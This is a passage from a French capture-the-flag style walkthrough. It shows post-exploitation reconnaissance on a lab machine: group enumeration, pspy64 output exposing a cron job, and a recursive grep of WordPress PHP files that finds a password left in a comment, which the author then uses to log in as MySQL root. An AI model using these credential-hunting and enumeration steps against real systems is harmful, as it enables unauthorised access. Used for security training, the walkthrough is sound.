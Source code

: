```plain
uid=1000(Joxter) gid=1000(Joxter) groups=1000(Joxter),1002(devsec) 
uid=1001(Boe) gid=1001(Boe) groups=1001(Boe),1002(devsec),1003(supergroup)
```

J'ai relevé quelque chose d'assez mystérieux avec le dossier */opt* que je ne peux pas accéder :  

```plain
www-data@moee:/var/www/public_html$ find / -group devsec 2> /dev/null     
/home/Joxter 
/opt
www-data@moee:/var/www/public_html$ ls -ld /opt/ 
drwxr-x--- 2 Boe devsec 4096 Nov 22  2020 /opt/
```

La chose est confirmée avec *pspy64* :  

```plain
2022/01/28 09:20:01 CMD: UID=0    PID=19891  | /usr/sbin/CRON -f  
2022/01/28 09:20:01 CMD: UID=1001 PID=19892  | /bin/sh -c python3 /opt/Flag.py
```

A ce stade cette information ne m'est toutefois d'aucune utilité.  

Finalement un grep des familles m'a fait remarqué un fichier que LinPEAS n'avait pas détecté :  

```plain
$ grep --include "*.php" -l -r -i password .
--- snip ---
wp-includes/wp-db.php
--- snip ---
```

La raison de ce manquement est sans doute liée au fait que les creds soient en commentaire :  

```php
// Take this creds to login in one of the service. 
// Username: snufkin 
// Password: t3ch5nufk1n##
```

De quel service on parle ? Après des échecs il ne s'agit pas de SSH. Le mot de passe est accepté pour l'utilisateur root de MySQL :  

```plain
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mydatabase         |
| performance_schema |
| useful_things      |
+--------------------+
4 rows in set (0.01 sec)
```

Notez la présence de la base *useful\_things* qu'on ne voyait pas précédemment.  

